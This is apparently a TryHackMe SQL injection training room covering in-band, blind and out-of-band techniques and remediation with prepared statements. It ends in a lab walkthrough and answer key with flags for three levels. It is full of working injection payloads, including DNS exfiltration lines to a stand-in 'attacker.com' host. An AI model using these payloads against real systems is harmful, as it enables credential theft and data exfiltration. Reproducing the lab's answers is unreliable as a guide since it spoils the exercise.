

# SQL Injection Introduction

Learn how to detect and exploit SQL Injection vulnerabilities.

## Task 1. Introduction

SQL Injection (SQLi) is one of the most well-known and dangerous web application vulnerabilities. Listed under [OWASP's A05:2025 - Injection](https://owasp.org/Top10/2025/A05_2025-Injection/) category, it occurs when an attacker is able to manipulate the SQL queries that a web application sends to its database. The consequences can be severe: unauthorised access to sensitive data, bypassed authentication, modified or deleted records, and in some cases, full control of the database server itself.

Despite being one of the oldest vulnerability classes in web security, SQL Injection continues to appear in modern applications. It has been at the root of numerous high-profile data breaches affecting millions of users. For a penetration tester, understanding how to identify and exploit SQLi is a fundamental skill you will use throughout your career.

In this room, you will learn how SQL Injection works from the ground up. You will start with the specific SQL syntax that enables injection, then progress through detection techniques, exploitation methods across all major SQLi types, and finally understand how developers can prevent these vulnerabilities.

### Learning Objectives

- Understand how SQL Injection vulnerabilities arise in web applications
- Identify and detect potential SQL Injection points
- Exploit In-Band SQL Injection (Error-Based and Union-Based)
- Exploit Blind SQL Injection (Authentication Bypass, Boolean-Based, and Time-Based)
- Understand Out-of-Band SQL Injection techniques
- Apply remediation strategies to prevent SQL Injection

### Prerequisites

This room assumes you have completed the [Database SQL Basics](https://tryhackme.com/room/databasesqlbasics) room and are comfortable with `SELECT`, `FROM`, `WHERE`, and `ORDER BY`. If those concepts are unfamiliar, complete that room first.

### Questions

I am ready to learn about SQL Injection!

> No answer needed

## Task 2. SQL Essentials for Injection

Before diving into SQL Injection techniques, there are several SQL features beyond the basics that you need to understand. These are the building blocks that make injection payloads work.

### SQL Comments

Comments tell the database to ignore everything that follows on the line. In MySQL, you can use `--` (double dash followed by a space) or `#` to start a single-line comment. Multi-line comments use `/* */`.

Why does this matter for injection? When you inject into the middle of an existing query, there is often leftover SQL syntax after your payload that would cause an error. A comment lets you cleanly cut off the rest of the original query. For example, if the original query is:

```sql
SELECT * FROM users WHERE username='INPUT' AND password='secret';
```

Injecting `admin'--` as the username turns it into:

```sql
SELECT * FROM users WHERE username='admin'-- AND password='secret';
```

Everything after `--` is ignored, so the password check never runs.

### UNION

The `UNION` operator combines the results of two or more `SELECT` statements into a single result set. There is one critical rule: **both `SELECT` statements must return the same number of columns**, and the columns should have compatible data types.

```sql
SELECT name, age FROM students UNION SELECT username, id FROM admins;
```

Attackers use `UNION` to append their own `SELECT` statement to a legitimate query, pulling data from entirely different tables. This is the foundation of Union-Based SQL Injection. If the original query selects 3 columns, your injected `UNION SELECT` must also select exactly 3 values.

### LIKE and Wildcards

The `LIKE` operator performs pattern matching on strings. The `%` wildcard matches any sequence of characters, and `_` matches exactly one character.

```sql
SELECT * FROM users WHERE username LIKE 'adm%';
```

This returns any username starting with "adm" (admin, administrator, etc.). In Blind SQL Injection, attackers use `LIKE` with wildcards to enumerate data one character at a time — testing `LIKE 'a%'`, `LIKE 'b%'`, and so on until they find a match.

### LIMIT

The `LIMIT` clause limits the number of rows returned. The syntax `LIMIT offset, count` lets you skip rows and control output size.

```sql
SELECT * FROM users LIMIT 1;       -- returns only the first row
SELECT * FROM users LIMIT 2, 1;    -- skips 2 rows, returns the 3rd
```

In injection payloads, `LIMIT` is often used to control which row is returned or to prevent the output from being overwhelmed by too many results.

### String Functions

Two functions are especially useful when extracting data through injection:

- **`group_concat()`** aggregates values from multiple rows into a single comma-separated string. Instead of getting results row by row, you get everything at once:

```sql
SELECT group_concat(username, ':', password SEPARATOR '<br>') FROM users;
-- Returns: admin:pass123<br>martin:secret<br>jim:work456
```

- **`CONCAT()`** joins individual values together: `CONCAT(username, ':', password)` produces `admin:pass123` for a single row.

### The information_schema Database

Every MySQL, MariaDB, and PostgreSQL server has a built-in database called `information_schema`. It contains metadata about every other database on the server:  database names, table names, column names, and data types. Think of it as the database's map of itself.

Two tables within `information_schema` are particularly valuable during SQL Injection:

- **`information_schema.tables`:** lists every table. The `table_schema` column holds the database name, and `table_name` holds the table name.
- **`information_schema.columns`**: lists every column. The `table_name` and `column_name` columns let you discover the structure of any table.

When performing Union-Based injection, `information_schema` is how you go from "I can inject" to "I know every table and column in this database."

### A Note on Database Engines

This room uses MySQL syntax throughout. Other database engines (MSSQL, PostgreSQL, SQLite, Oracle) have their own variations: different comment syntax, different system tables, and different functions. The core concepts transfer, but the exact payloads differ. Once you master MySQL injection, adapting to other engines is straightforward.

### Questions

What SQL statement combines results from two `SELECT` queries into one result set?

> UNION

What built-in database contains metadata about all other databases, tables, and columns in MySQL?

> information_schema

## Task 3. What is SQL Injection

SQL Injection occurs when a web application incorporates user-supplied input directly into a SQL query without proper sanitisation or parameterisation. The attacker's input is treated as SQL code rather than data, allowing them to alter the query's logic and interact with the database in ways the developer never intended.

### How Web Applications Use SQL

When you browse a website, many of the pages you see are generated dynamically from a database. Consider a blog application where each article has a unique ID. When you visit `https://website.thm/article?id=1`, the web server takes the value `1` from the URL and inserts it into a SQL query:

```sql
SELECT * FROM articles WHERE id = 1 AND public = 1;
```

The database returns the article with ID 1 (if it's public), and the web server renders it into the page you see. This is how most data-driven web applications work: user input is passed to SQL queries, and the results are returned to the user.

### Where the Vulnerability Lives

The problem arises when the application builds the query by directly concatenating user input into the SQL string. If the server-side code looks something like this:

```php
$query = "SELECT * FROM articles WHERE id = " . $_GET['id'] . " AND public = 1;";
```

Then whatever you put in the `id` parameter becomes part of the SQL query. If you change the URL to `?id=1 OR 1=1--`, the query becomes:

```sql
SELECT * FROM articles WHERE id = 1 OR 1=1-- AND public = 1;
```

The `OR 1=1` makes the `WHERE` clause always true, and the `--` comments out the `AND public = 1` check. The database now returns every article, including private ones.

### Three Types of SQL Injection

SQL Injection techniques are categorised based on how the attacker receives feedback from the database:

**In-Band SQL Injection** is when the results of the injection are returned directly in the web application's response. This is the most straightforward type. It has two subtypes:

- **Error-Based**: The database returns error messages that reveal information about its structure.
- **Union-Based**: The attacker uses `UNION` to append a second query and extract data through the page output.

**Blind SQL Injection** is when the application does not display query results or error messages. The attacker must infer information from indirect signals:

- **Authentication Bypass**: The login succeeds or fails based on the injected query.
- **Boolean-Based**: The application's response changes subtly (e.g., different content, true/false) based on whether a condition is true.
- **Time-Based**: The attacker uses `SLEEP()` to introduce a time delay and observes whether the response is slow (true) or fast (false).

**Out-of-Band SQL Injection** is when the attacker causes the database server to make an external network request (e.g., a DNS lookup) that exfiltrates data through a separate channel. This is used when neither in-band nor blind techniques are viable.

### Detecting SQL Injection

Before you can exploit SQL Injection, you need to find it. As a penetration tester, you should test every input that interacts with the database. Common injection points include URL parameters, form fields (login, search, comment boxes), cookies, and HTTP headers.

The simplest detection method is to inject test characters and observe the response:

- Enter a single quote `'`:  if the application returns a database error, the input is likely being inserted into a SQL query without proper handling.
- Try `"` (double quote): some queries use double quotes instead of single quotes.
- Enter `;--`:  if the application behaves differently (e.g., returns different content), the comment syntax is being processed.
- Test `OR 1=1`: if it changes the results, the input is directly in the query's logic.

Not every test will produce a visible error. If the application suppresses errors, you may need to rely on behavioural differences (Boolean-Based) or timing delays (Time-Based) to confirm injection. We will cover each of these techniques in detail over the following tasks.

### Questions

What character is commonly used as a first test when probing for SQL Injection?

> '

What type of SQL Injection returns results directly in the web page?

> In-Band

## Task 4. In-Band SQL Injection

In-Band SQL Injection is the most common and easiest-to-exploit category. The term "In-Band" means the same communication channel used to deliver the injection is also used to receive the results. You inject through a web request and see the extracted data right there in the page response.

### Error-Based SQL Injection

Error-Based SQL Injection exploits database error messages displayed to the user. When a web application is misconfigured and shows raw database errors, these messages often leak valuable information about the query structure, table names, and even data.

For example, injecting a single quote `'` into a vulnerable parameter might produce an error like:

```txt
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' at line 1
```

This tells you several things: the database is MySQL, the input is being wrapped in single quotes, and the application doesn't handle errors gracefully. From here, you can craft more precise payloads to extract information through deliberate error messages.

While Error-Based Injection can reveal structural information, **Union-Based Injection** is the primary method for extracting large amounts of data.

### Union-Based SQL Injection

Union-Based SQLi uses the `UNION` operator to append your own `SELECT` query to the original one, pulling data from any table the database user has access to. The methodology follows a consistent series of steps.

**Step 1: Determine the number of columns.** The `UNION` operator requires that both queries have the same number of columns. You discover this by injecting `UNION SELECT` with an incrementing number of values until the error disappears:

```sql
1 UNION SELECT 1          -- error (wrong column count)
1 UNION SELECT 1,2        -- error (still wrong)
1 UNION SELECT 1,2,3      -- success! The table has 3 columns
```

**Step 2: Identify which columns are displayed.** Not all columns may be rendered on the page. Change the original query's value to something that returns no results (like `0`), so only the `UNION` output is displayed:

```sql
0 UNION SELECT 1,2,3
```

The numbers that appear on the page output tell you which column positions you can use for data extraction. If  `3` appears in the content area, that is your extraction column.

**Step 3: Extract the database name.** Replace the visible column position with the `database()` function:

```sql
0 UNION SELECT 1,2,database()
```

This reveals the current database name — the first piece of the puzzle.

**Step 4 — Enumerate tables.** Use `information_schema.tables` to list all tables in the target database:

```sql
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'database_name'
```

**Step 5: Enumerate columns.** Once you've identified an interesting table, get its column names:

```sql
0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'target_table'
```

**Step 6: Extract data.** With the table and column names known, extract the actual data:

```sql
0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM target_table
```

This returns all usernames and passwords in a readable format.

Understanding **why** each step works is more important than memorising the payloads. The column count must match because that is how SQL's `UNION` operator is defined. We use `0` or `-1` as the ID because we need the original query to return an empty result, so our injected results are what the application renders. We use `information_schema` because it is the database's own catalogue of its structure.

In the practical walkthrough task (Task 9), Level 1 presents exactly this scenario: a blog application where the `id` parameter is injectable. The SQL Query box at the bottom of the page shows you how your input modifies the query in real time.

### Questions

What subtype of In-Band SQLi relies on database error messages to extract information?

> error-based

What SQL function returns the name of the current database in MySQL?

> database()

## Task 5. Blind SQL Injection: Authentication Bypass

In the previous task, you exploited SQL Injection, where the results were directly visible in the page. But what happens when the application does not display any database output or error messages? This is where Blind SQL Injection comes in.

### What Makes It "Blind"?

Blind SQL Injection occurs when the application does not show query results or error messages to the user. The injection still works: the database still processes your malicious input,  but you have no direct way to see the output. Instead, you must infer whether your injection succeeded from the application's behaviour: did you get logged in? Did the page content change? Did the response take longer?

Authentication bypass is the most intuitive example of Blind SQLi. You never see the database output, because you only see whether you're logged in or not.

### How Authentication Queries Work

Most login forms work by sending the username and password to the server, which constructs a query like:

```sql
SELECT * FROM users WHERE username='bob' AND password='secret123' LIMIT 1;
```

The application checks whether this query returns any rows. If it returns a row, the credentials are valid, and you're logged in. If it returns nothing, the login fails. The application never displays the actual query results. It either redirects you to a dashboard or shows "Invalid credentials."

### The Attack

The key insight is that you don't need to know a valid username or password. You just need to make the query return at least one row. Consider what happens if you enter the username `' OR 1=1;--` and anything in the password field. The server constructs:

```sql
SELECT * FROM users WHERE username='' OR 1=1;--' AND password='anything' LIMIT 1;
```

Let's break down what happens:

- `username=''`: checks for an empty username (no match)
- `OR 1=1`: this is always true, so the entire `WHERE` clause becomes true
- `;--`: the semicolon ends the statement, and `--` comments out everything after it, including the password check
- The database returns every row in the `users` table
- The application sees that rows were returned and logs you in as the first user (often the admin account)

### Targeting a Specific User

Sometimes you want to log in as a specific account rather than whoever happens to be at the top of the table. If you know the admin's username, you can inject `admin'--`, which produces:

```sql
SELECT * FROM users WHERE username='admin'--' AND password='anything' LIMIT 1;
```

The password check is completely commented out. The database returns the admin row, and you're logged in as admin without needing the password.

### Variations

The exact payload depends on the query structure. Some things to try:

- `' OR 1=1;--` is classic bypass, works when the username is wrapped in single quotes
- `' OR 1=1#` this uses `#` as the comment character (MySQL alternative)
- `" OR 1=1--` for queries that use double quotes around the input
- Try both the username and password fields:  some applications only concatenate one of them into the query, so the vulnerable field may vary

### Detection in the Field

When testing a login form during a penetration test, authentication bypass is one of the first things to try. Enter `' OR 1=1;--` in the username field and any string in the password field. If you're logged in, the form is vulnerable to SQL Injection.

In the practical walkthrough task (Task 9), Level 2 presents a login form with a visible SQL Query box showing exactly how your input is inserted into the query. Watch how the username and password fields are placed between single quotes in the `WHERE` clause.

### Questions

What boolean condition is commonly injected to make a `WHERE` clause always evaluate to true?

> 1=1

## Task 6. Blind SQL Injection: Boolean and Time-Based

Authentication bypass gets you past a login, but what if you want to pull out actual data when the application gives you no visible output? Boolean-Based and Time-Based Blind SQLi let you extract usernames, passwords, and entire databases, one character at a time.

### Boolean-Based Blind SQL Injection

In Boolean-Based Blind SQLi, the application returns a binary signal. Some kind of true/false difference. Maybe different page content, a JSON response like `{"taken":true}` vs `{"taken":false}`, or a subtle change in the HTML. You use that two-state feedback to ask the database yes/no questions.

**The idea:** Imagine a username-check feature that tells you whether an account exists. `https://website.thm/checkuser?username=admin` returns `{"taken":true}` because admin is taken. `?username=admin123` returns `{"taken": false}` because that user does not exist.

If this input is injectable, the backend query probably looks like:

```sql
SELECT * FROM users WHERE username = '%username%' LIMIT 1;
```

By injecting a `UNION SELECT` with a condition, you can ask the database arbitrary yes/no questions and read the answer from the true/false response.

**Step 1: Confirm injection.** Inject a condition that is always true:

```sql
admin123' UNION SELECT 1,2,3 WHERE database() LIKE '%';--
```

The `%` wildcard matches anything, so this should return true. If you see `{"taken":true}`, you know injection works.

**Step 2: Guess the database name, character by character.** Replace the wildcard with specific letters:

```sql
admin123' UNION SELECT 1,2,3 WHERE database() LIKE 'a%';--
```

False? Not 'a'. Try `b%`, `c%`, keep going. When the response flips to true, you have found the first letter. Then move to the second character: `sa%`, `sb%`, `sc%`, etc. and keep narrowing until you have the full name.

**Step 3: Get table and column names.** Same technique against `information_schema`:

```sql
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'db_name' AND table_name LIKE 'a%';--
```

Cycle through characters to find table names, repeat for column names with `information_schema.columns`, and then do it again for actual data values.

This is slow. Each character takes multiple requests. But it is reliable, and it works even when every other output channel is locked down.

### Time-Based Blind SQL Injection

Time-Based Blind SQLi is for when the application gives you absolutely nothing to work with visually. The page looks identical no matter what you inject. Same content, same status code, same headers. Your only signal is **how long the response takes**.

MySQL's `SLEEP()` function pauses query execution for a set number of seconds. Wrap a condition around it, and the database only pauses when the condition is true:

```sql
admin123' UNION SELECT SLEEP(5),2 WHERE database() LIKE 's%';--
```

If the database name starts with 's', the response takes around 5 seconds. If not, it comes back right away.

**Step 1: Find the column count.** Same idea as Union-Based. Try `UNION SELECT SLEEP(5)` and add columns until you see a delay:

```sql
admin123' UNION SELECT SLEEP(5);--        -- no delay (wrong count)
admin123' UNION SELECT SLEEP(5),2;--      -- 5 second delay (2 columns!)
```

**Step 2: Enumerate data.** The process is identical to the Boolean-Based one: cycle through characters with `LIKE`. But instead of checking the page content, you watch the clock. Delay means true. No delay means false.

**A word of caution:** Network latency can mess with time-based detection. On a flaky connection, a natural lag might look like a successful `SLEEP()`. Use longer sleep values (5-10 seconds) and test each character a couple of times to be sure. On MSSQL, the equivalent is `WAITFOR DELAY '0:0:5'`.

### When To Use Which

| Scenario | Technique |
| --- | --- |
| App shows different content for true vs false | Boolean-Based |
| App response looks identical, no matter what | Time-Based |
| Time-based is blocked or too unreliable | Out-of-Band (next task) |

In the practical walkthrough (Task 9), Level 3 uses Boolean-Based SQLi via a username-check API that returns `{"taken":true/false}` responses. Level 4 moves to Time-Based SQLi via the Referrer header, with no visible difference in response.

### Questions

What MySQL function causes a deliberate time delay in a query's response?

> SLEEP

## Task 7. Out-of-Band SQL Injection

Out-of-Band (OOB) SQL Injection works differently from everything covered so far. Instead of reading results through the web response, you force the database server to reach out to a server you control through a separate channel, usually DNS or HTTP, and carry the stolen data with it.

### When You Need Out-Of-Band

OOB comes into play when everything else has failed:

- In-Band is off the table because the app does not show query results or errors.
- Boolean-Based does not work because the response looks the same regardless of the condition.
- Time-Based is unreliable because the network is too noisy, or `SLEEP()` is blocked.
- But the database server **can** make outbound connections. That last point is the requirement. If the firewall blocks all outbound traffic from the DB server, OOB is dead in the water.

You will not use OOB as often as In-Band or Blind, but when you hit a target where every other avenue is shut down, and the database has network access, it can be the only way to get data out.

### How It Works

Two channels are involved:

1. The **attack channel**: your normal web request with the injection payload.
2. The **data channel**: an outbound network request (DNS or HTTP) that the database server makes to your server, with the exfiltrated data baked into the request itself.

### DNS Exfiltration With MySQL

The most common OOB trick for MySQL uses `LOAD_FILE()` to trigger a DNS lookup. You embed the data you want as a subdomain:

```sql
SELECT LOAD_FILE(CONCAT('\\\\', (SELECT database()), '.attacker.com\\share'));
```

What happens:

1. `(SELECT database())` pulls the database name. Let's say it is `webapp_db`.
2. `CONCAT()` builds the string `\\webapp_db.attacker.com\share`.
3. `LOAD_FILE()` tries to read that file path. On Windows, this initiates a DNS lookup for `webapp_db.attacker.com`.
4. Your DNS server catches the request and logs `webapp_db`. The data is in the subdomain.

This works best on Windows-based MySQL servers where UNC paths trigger DNS resolution.

### MSSQL Techniques

Microsoft SQL Server has stored procedures that make OOB more direct:

`xp_dirtree` triggers a DNS lookup by trying to list a directory on a remote server:

```sql
EXEC master..xp_dirtree '\\attacker.com\share';
```

`xp_cmdshell` (if it is enabled) runs OS commands directly, so you can use `nslookup` or `curl` to ship data out:

```sql
EXEC xp_cmdshell 'nslookup data.attacker.com';
```

`xp_cmdshell` is off by default in modern MSSQL, but `xp_dirtree` is still available and gets used regularly in pentests.

### Receiving the Data

You need something listening on your end to catch what the database sends. A few options:

- **Burp Collaborator** gives you a unique subdomain and logs any DNS or HTTP requests to it. Inject the Collaborator domain into your payload, check the Collaborator tab for callbacks.
- **Interactsh** from ProjectDiscovery does the same thing but is free and can be self-hosted.
- A **custom listener**, like a Python DNS server with `dnslib` or a bare-bones HTTP server, if you want full control.

### Limitations

OOB has constraints worth knowing about:

- The database server needs outbound network access (many production setups restrict this).
- Payloads are database-engine-specific. MySQL, MSSQL, and PostgreSQL each need different syntax.
- DNS exfiltration has a size limit: subdomain labels are limited to 63 characters each.
- It is generally slower and flakier than pulling data directly.

The practical lab in this room does not cover OOB, as it would require external DNS infrastructure. But you should understand the technique. You will hit situations in real engagements where it is the only option.

### Questions

What protocol beginning with D is commonly used to exfiltrate data in Out-of-Band SQLi?

> DNS

What MSSQL stored procedure can be used to trigger DNS lookups for data exfiltration?

> xp_dirtree

## Task 8. Remediation and Prevention

Knowing how to exploit SQLi matters, but so does knowing how to fix it. When you write up a SQLi finding for a client, you need to explain the fix, not just the bug. Here are the main defences, roughly in order of how much they help.

### Prepared Statements (Parameterised Queries)

Prepared statements are the fix. The real one. They separate SQL code from data. The developer writes the query structure with placeholders for user input, and the database receives the input separately, treating it as data only. Never as executable SQL.

**Vulnerable PHP code:**

```php
$query = "SELECT * FROM users WHERE username='" . $_POST['username'] . "'";
$result = mysqli_query($conn, $query);
```

User input gets concatenated into the query string. An attacker can escape quotes and inject whatever they want.

**Fixed with prepared statements (PDO):**

```php
$stmt = $pdo->prepare("SELECT * FROM users WHERE username = ?");
$stmt->execute([$_POST['username']]);
$result = $stmt->fetchAll();
```

The `?` is a placeholder. Whatever the user enters, even `' OR 1=1--`, the database treats the whole thing as a literal string. It never touches the query structure.

**Vulnerable Python code:**

```python
query = f"SELECT * FROM users WHERE username='{username}'"
cursor.execute(query)
```

**Fixed:**

```python
cursor.execute("SELECT * FROM users WHERE username = %s", (username,))
```

`%s` is a parameter placeholder. The MySQL connector handles escaping and binding for you.

Every language and framework supports this pattern. Define the query with placeholders, and pass user input as parameters. SQL Injection is gone because the input physically cannot change the query structure.

### Input Validation

Input validation controls what the application accepts before anything reaches the database. The best approach is **allowlisting**: define exactly what is valid and reject everything else.

If a parameter should be a numeric article ID, check it:

```php
if (!ctype_digit($_GET['id'])) {
    die("Invalid input");
}
```

Never rely on validation alone. Use it alongside prepared statements. Blocklisting (trying to filter out characters like `'` or `--`) is brittle. Attackers will find ways around your filter. Double encoding, alternate syntax, something you did not think of.

### Escaping User Input

Escaping means putting a backslash before special characters so the database treats them as literals instead of syntax. ' becomes `\'`.

It can stop basic injection, but it is fragile and database-specific. Every engine has different special characters and escaping rules. Use it as a last resort, such as when dealing with legacy code that cannot be refactored to use prepared statements.

### Principle of Least Privilege

Even with good input handling, defence-in-depth means limiting the blast radius. The database account the web app uses should have the bare minimum permissions:

- Read-only application? The account gets `SELECT` privileges and nothing else.
- Never connect as `root` or `sa` from the application.
- Lock down access to sensitive tables so only the procedures that need them can reach them.

If someone does exploit SQL injection through a low-privilege account, they cannot `DROP` tables, access other databases, or run system commands.

### Web Application Firewalls (WAFs)

A WAF inspects incoming requests and blocks known attack patterns: `' OR 1=1`, `UNION SELECT`, `information_schema`, that kind of thing.

But WAFs are not a substitute for writing secure code. Experienced attackers bypass them with encoding tricks, alternative syntax, and obfuscation. Treat a WAF as an extra layer, not the defence.

### Questions

What is the primary and most effective defence against SQL Injection?

> Prepared Statements

## Task 9. Practical: SQL Injection



This task puts you in front of four lab levels. Each one isolates a different injection technique from the previous tasks. The SQL Query box updates live as you type, so you can see exactly how your input changes what the database receives. Watch it as you work.

Click `Start Machine` to deploy the lab. You can then view the lab in split-screen mode or access it at `http://10.49.140.185/level1` in your browser if you are using the VPN. The lab shows a mock browser with a simulated address bar, page content, and an **SQL Query** box that updates live as you type, showing the actual query being executed. A **SQL Results** or **Answer** box shows output or prompts for a response. Levels are sequential: finish one to unlock the next. Flags appear at the top of each new level. If you get a 502 error, wait a moment and refresh.

### Level 1: Union-Based SQLi (In-Band)

**What you see**:  A mock browser at `https://website.thm/article?id=1` showing a blog article titled "My First Article". The SQL Query box shows:

```sql
select * from article where id =
```

**Step 1: Find the column count.** Change the `id` value in the URL bar:

```sql
1 UNION SELECT 1
```

Error. Wrong number of columns. Try two:

```sql
1 UNION SELECT 1,2
```

Still an error. Try three:

```sql
1 UNION SELECT 1,2,3
```

No error, and the article loads. This means the `article` table has **3 columns**. This is the `UNION` rule from Task 2: both `SELECT` statements must return the same number of columns. The database rejects anything that does not match, which is why each wrong guess gives you an error.

**Step 2: Make your `UNION` output visible.** Set the article ID to `0` so the original query returns nothing:

```sql
0 UNION SELECT 1,2,3
```

With a valid ID like `1`, the legitimate article row fills the page, and our injected row gets pushed aside. Setting it to `0` returns no real article, so only our `UNION` output renders. The values `1`, `2`, and `3` appear on the page.`3` shows up in the content area, which is the column we will use for extraction.

**Step 3: Get the database name.**

```sql
0 UNION SELECT 1,2,database()
```

`database()` is a MySQL function that returns the name of the current database. The content area shows that the current database is `sqli_one`.

**Step 4: List tables.**

```sql
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'
```

`information_schema` is the database's own catalogue, covered in Task 2. It holds the names of every table in every database on the server. `group_concat()` concatenates all results into a single string so they fit in the single column we have available. You can now see the tables, including `staff_users`.

**Step 5: List columns in the target table.**

```sql
0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'
```

This reveals the columns: `id`, `username`, and `password`.

**Step 6: Extract credentials.**

```sql
0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users
```

All usernames and passwords appear on the page. Find **Martin's password** and enter it in the Answer box.

Click **Check Password** to find the first flag and move on to Level 2.

### Level 2: Authentication Bypass

**What you see**: A login form at `https://website.thm/login`. The SQL Query box shows:

```sql
select * from users where username='' and password='' LIMIT 1;
```

The app checks whether this query returns a row. If it does, you are in. It never shows you the data; it just shows success or failure. That makes this Blind SQLi: the injection works, but the results aren't visible on the page.

**The payload.** In the **Username** field, enter `' OR 1=1;--` and put anything in the Password field. The server builds:

```sql
select * from users where username='' OR 1=1;--' and password='anything' LIMIT 1;
```

Let's break it down:

- `username=''` does not match any user
- `OR 1=1` is always true, so the entire `WHERE` clause evaluates to true
- `;--` ends the statement and comments out everything after it, including the `and password=` check
- The database returns every row. The app sees rows and logs you in as the first user

The password field is irrelevant because `--` removes it from the query before the database ever evaluates it.

Click **Login**. You will see a message confirming the bypass. Click **Level 3** to find the second flag, then move on.

### Level 3: Boolean-Based Blind SQLi

**What you see**: Two mock browsers:

- **Top:** A checkuser API at `https://website.thm/checkuser?username=admin` returning `{"taken":true}`.
- **Bottom**:  A login form for the credentials you are about to discover.

If you execute the query in the Top browser, the SQL Query box shows:

```sql
select * from users where username = '%username%' LIMIT 1;
```

There is no data in the page output. Your only feedback is `{"taken":true}` or `{"taken":false}`. That binary signal is all you need. You use it to ask the database yes/no questions and extract content one character at a time.

**Step 1: Confirm injection.**

```sql
admin123' UNION SELECT 1,2,3 where database() like '%';--
```

`%` is a wildcard that matches anything, so this condition is always true. Response: `{"taken":true}`. Injection is confirmed and working.

**Step 2: Get the database name, letter by letter.**

```sql
admin123' UNION SELECT 1,2,3 where database() like 'a%';--
```

This returns `{"taken":false}`. Not 'a'. Try `s%`:

```sql
admin123' UNION SELECT 1,2,3 where database() like 's%';--
```

```
This returns {"taken":true}. First letter is s. Fix that and test the second character:
```

```sql
admin123' UNION SELECT 1,2,3 where database() like 'sa%';--   {"taken":false}
admin123' UNION SELECT 1,2,3 where database() like 'sq%';--   {"taken":true}
```

```
Keep narrowing: sqla% (false),sqli% (true),sqli_% (true),sqli_t% (false),sqli_th% (false),sqli_thr% (false), and so on. This reveals that the full database name is sqli_three.
```

**Step 3: Find table names.**

Now query `information_schema.tables` the same way, but test table names instead:

```sql
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'u%';--
```

`{"taken":true}`. Something starts with 'u'. Keep going: `us%` (true),`use%` (true),`user%` (true), `users` with no wildcard (true). Now you know the table name: `users`.

**Step 4: Get column names.**

```sql
admin123' UNION SELECT 1,2,3 FROM information_schema.columns WHERE table_name = 'users' and column_name like 'u%';--
```

Work through each column you want to enumerate. You find the columns `username` and `password`.

**Step 5: Extract the username.**

```sql
admin123' UNION SELECT 1,2,3 from users where username like 'a%';--
```

`{"taken":true}`. Keep going: `ad%`, `adm%`, `admi%`, `admin` with no wildcard (true). You’ve now got the username: `admin`

**Step 6: Extract the password.**

```sql
admin123' UNION SELECT 1,2,3 from users where username='admin' and password like '3%';--
```

Work through the same way. The password is `3845`.

**Step 7: Log in.** Enter `admin` and `3845` in the bottom form. Click **Login** to find the third flag and get to Level 4.

### Level 4: Time-Based Blind SQLi

**What you see**:  Similar setup to Level 3, but the injection point is the **Referrer** HTTP header. More importantly, the response looks completely identical whether a condition is true or false. There is nothing to read on the page. Your only signal is whether the response **takes longer to arrive**.

**Step 1: Find the column count.**

```sql
admin123' UNION SELECT SLEEP(5);--
```

Response comes back immediately, wrong column count. Try two:

```sql
admin123' UNION SELECT SLEEP(5),2;--
```

A 5-second pause before the response arrives. The table has **2 columns**. The `SLEEP()` only runs when the `UNION` column count is correct, so the delay itself confirms both the injection and the column count.

**Step 2: Get the database name.**

Same character-by-character method as Level 3, but now you watch the clock instead of the response body. A 5-second delay means the condition is true. An immediate response means false.

Start with the first character:

```sql
admin123' UNION SELECT SLEEP(5),2 where database() like 's%';--
```

5-second delay. The database name starts with **s**. Fix that letter and test the second:

```sql
admin123' UNION SELECT SLEEP(5),2 where database() like 'sq%';--
```

Another delay. The second letter is **q**. Keep going the same way:

```sql
admin123' UNION SELECT SLEEP(5),2 where database() like 'sqli%';--
```

Delay. Then `sqli_`:

```sql
admin123' UNION SELECT SLEEP(5),2 where database() like 'sqli_f%';--
```

Delay. Then `sqli_fo%`,`sqli_fou%`, each one giving a delay until you arrive at the full name with no wildcard:

```sql
admin123' UNION SELECT SLEEP(5),2 where database() like 'sqli_four';--
```

Delay again, and this time there is no `%` at the end, which confirms you have the complete name. The database name is `sqli_four`.

**Step 3: Enumerate tables and columns.**

Same flow as Level 3, but every condition check uses `SLEEP()`. Query `information_schema.tables` for table names and `information_schema.columns` for column names. A delay means the character matches; immediate means it does not.

```sql
admin123' UNION SELECT SLEEP(5),2 FROM information_schema.tables WHERE table_schema = 'sqli_four' and table_name like 'u%';--
```

Work through to find the `users` table, then enumerate its columns the same way.

**Step 4: Extract the admin password.**

```sql
admin123' UNION SELECT SLEEP(3),2 from users where username='admin' and password like '4%';--
```

3-second delay: first character is **4**. Then`49%` (delay),`496%` (delay),`4961%` (delay),`4961` with no wildcard (delay). You now have the password: `4961`.

This level takes a while. Every character needs multiple requests, and every true condition means sitting through the sleep timer. That is time-based blind SQLi. It is the slowest technique here, but it works when there is nothing else to read from the response.

**Step 5: Log in and reflect on what just happened.** Enter `admin` and `4961` in the login form and click **Login** to get the final flag.

Take a moment to think about what you actually did here. You extracted a full set of credentials without the application ever returning a single byte of database content. No data in the page, no error messages, no boolean signal to read. Every digit of that password came from watching whether a response took 3 seconds or arrived immediately, repeated across dozens of requests.

That is the core of time-based blind SQLi: you never read the data, you deduce it. The database does the work, and the clock tells you the answer. In a real engagement, you would use SQLmap to automate character enumeration rather than testing by hand. But doing it manually once makes clear why the technique works and where it can break, which matters when you need to adjust your approach against a target that blocks or rate-limits automated tools.

### Questions

What is the flag after completing Level 1?

> THM{SQL_INJECTION_3840}

What is the flag after completing Level 2?

> THM{SQL_INJECTION_9581}

What is the flag after completing Level 3?

> THM{SQL_INJECTION_1093}

What is the flag after completing Level 4?

